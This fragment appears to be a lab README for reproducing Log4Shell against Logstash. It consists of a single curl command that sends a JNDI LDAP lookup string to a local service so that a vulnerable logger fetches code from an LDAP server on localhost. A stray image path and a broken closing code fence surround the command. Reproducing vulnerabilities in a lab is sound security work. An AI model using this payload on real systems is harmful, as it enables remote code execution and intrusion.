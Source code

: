 # Logstash

## Run

```
curl -H "content-type: application/json" -XPUT 'http://127.0.0.1:8080/tweet/me' -d '"${jndi:ldap://127.0.0.1:1389/Run}"'
``